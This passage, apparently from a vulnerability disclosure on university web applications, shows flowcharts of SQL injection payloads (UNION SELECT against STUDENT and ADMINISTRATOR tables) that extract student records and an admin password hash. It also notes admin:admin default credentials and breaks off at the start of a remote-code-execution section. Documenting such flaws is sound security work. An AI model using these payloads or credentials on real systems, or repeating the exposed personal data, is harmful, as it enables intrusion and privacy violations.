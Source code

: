 

```mermaid
%%{init: { "flowchart": { "wrappingWidth": 360 } }}%%
flowchart TD
    B["enrollment number</br></br>*'OR ''*"] --> D["length==6  ✅"]
    C["National ID</br></br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -*"] --> E["quotes removed  ✅"]
    D --> G["UNION SELECT from STUDENT executes"]
    E --> G["UNION SELECT from STUDENT executes"]
    G --> H["**Group identifier lookup response:**</br></br>Student with National ID/Passport:</br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -* </br></br>and with enrollment number:</br>*'OR ''* </br></br>is assigned the group number:</br><mark>10425 José Luis 33333333 000009 Fuertes Castro admin\@fi.upm.es G-553T</mark>"]
```


Similarly, administrator data could be extracted:


```mermaid
%%{init: { "flowchart": { "wrappingWidth": 360 } }}%%
flowchart TD
    B["enrollment number</br></br>*'OR ''*"] --> D["length==6  ✅"]
    C["National ID</br></br>*=2 UNION SELECT CONCAT(ADMINID, CHAR(32), ADMINNAME, CHAR(32), SURNAMEADM, CHAR(32), USER, CHAR(32), PASSWORD, CHAR(32), EMAIL, CHAR(32), ADMIN) FROM ADMINISTRATOR-- -*"] --> E["quotes removed  ✅"]
    D --> G["UNION SELECT from ADMINISTRATOR executes"]
    E --> G["UNION SELECT from ADMINISTRATOR executes"]
    G --> H["**Group identifier lookup response:**</br></br>Student with National ID/Passport:</br>*=2 UNION SELECT CONCAT(ADMINID, CHAR(32), ADMINNAME, CHAR(32), SURNAMEADM, CHAR(32), USER, CHAR(32), PASSWORD, CHAR(32), EMAIL, CHAR(32), ADMIN) FROM ADMINISTRATOR-- -*</br></br>and with enrollment number:</br>*'OR ''*</br></br>is assigned the group number:</br><mark>10 admin admin admin $1$aE4.badsb78...5c1 admin\@fi.upm.es 1</mark>"]
```



## Weak Credentials in the Admin Portal


The admin portal managing all audited applications was protected by **weak credentials**, such as `admin:admin`.


This could have allowed an external attacker to **take control of the data across all applications**.


## Remote Code Execution via Local File Read


While reviewing the code of one of the applications, a PHP file containing the following code caught my attention:

